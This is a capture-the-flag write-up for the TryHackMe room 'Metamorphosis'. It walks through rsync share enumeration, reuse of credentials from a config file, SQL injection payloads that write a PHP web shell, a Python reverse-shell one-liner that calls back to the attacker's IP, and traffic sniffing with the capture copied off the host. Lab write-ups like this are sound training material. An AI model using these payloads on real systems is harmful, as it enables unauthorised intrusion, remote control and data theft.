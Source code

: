 # Metamorphosis

![image](https://user-images.githubusercontent.com/5285547/126398152-edb99e4d-972a-4849-bd58-a604b7a9fa07.png)

Room link: https://tryhackme.com/room/metamorphosis

## Box name

```
sudo nano /etc/hosts
10.10.10.10 incognito.thm
```


## Nmap 

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
```

## Rsync Enum, Port 873

rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files.[3] It is commonly found on Unix-like operating systems. The rsync algorithm is a type of delta encoding, and is used for minimizing network usage. Zlib may be used for additional data compression,[3] and SSH or stunnel can be used for security.

```
nc -vn 10.10.177.2 873
(UNKNOWN) [10.10.177.2] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
Conf            All Confs <--- The server starts enumerating
@RSYNCD: EXIT         <--- Sever closes the connection
```

or

```
nmap -sV --script "rsync-list-modules" -p 873 10.10.177.2 

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  Conf                All Confs
```

List share's

```
rsync -av --list-only rsync://10.10.55.140/Conf 

receiving incremental file list
drwxrwxrwx          4,096 2021/04/10 21:03:08 .
-rw-r--r--          4,620 2021/04/09 21:01:22 access.conf
-rw-r--r--          1,341 2021/04/09 20:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 21:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 21:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 21:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 20:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 20:56:56 php.ini
-rw-r--r--            320 2021/04/09 21:03:16 ports.conf
-rw-r--r--            589 2021/04/09 21:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 21:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 21:00:59 smb.conf
-rw-rw-r--             72 2021/04/10 21:03:06 webapp.ini
```

Copy files

```
rsync -av  "rsync://10.10.55.140/Conf" . 

receiving incremental file list
./
access.conf
bluezone.ini
debconf.conf
ldap.conf
lvm.conf
mysql.ini
php.ini
ports.conf
resolv.conf
screen-cleanup.conf
smb.conf
webapp.ini

sent 255 bytes  received 194,360 bytes  389,230.00 bytes/sec
total size is 193,430  speedup is 0.99
```

Post files

```
rsync -av testfile.txt rsync://tom@10.10.55.140/Conf

sending incremental file list

sent 63 bytes  received 12 bytes  150.00 bytes/sec
total size is 7  speedup is 0.09
```

## User

In webapp.ini we can see a user and password for "tom".  
Change the "prod" to "dev" to bypass the 403 error.

![image](https://user-images.githubusercontent.com/5285547/126405026-04e2a3da-4ff9-4b78-914a-91ed43b0979d.png)

Then reuplaod the files

```
rsync -av ./ rsync://tom@10.10.55.140/Conf 
```

Now we can access the admin portal

![image](https://user-images.githubusercontent.com/5285547/126405143-f5546a02-32e0-4712-9aaf-a65b7d5f052c.png)

Playing with the application and testing a few things out.  
I found it vunerable to Sqli


payloads
```
tom" and 2=2 and ""="
tom" union select 1,2,3-- -
tom" UNION SELECT 1,"<?php echo shell_exec($_GET['cmd']);?>",2 INTO OUTFILE "/var/www/html/shell.php" -- '
```

Webshell 

http://IP/admin/shell.php

![image](https://user-images.githubusercontent.com/5285547/126406971-d222658d-3caf-46d1-98aa-f81644412ab5.png)
![image](https://user-images.githubusercontent.com/5285547/126406986-7c4b4f69-2faa-48ea-a804-f8deb17ba55a.png)

Lets get a reverse shell back. 
Start a net cat listner

```
nc -lnvp 9999
```

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.153.120",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
![image](https://user-images.githubusercontent.com/5285547/126407229-c24fc6c5-30d3-43ff-b245-d8f76db7e69d.png)

Upgrade your terminal

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo;fg
reset
xterm

export TERM=xterm;export SHELL=bash
```

## Root

Running linpeas on the box didn't show much, apart from tcpdump was usable. 

![image](https://user-images.githubusercontent.com/5285547/126408059-0e4b8b9e-4342-49b4-8ca7-31bc86b2a069.png)

So I started to sniff the traffie to see what was going on

```
tcpdump -i eth0 -A > tcpdump.out
```

Then transfered it to my box after a while, I made a coffee then came back to  
go through the results. 

```
python3 -m http.server 8899
wget http://IP:8899/tcpdump.out
```




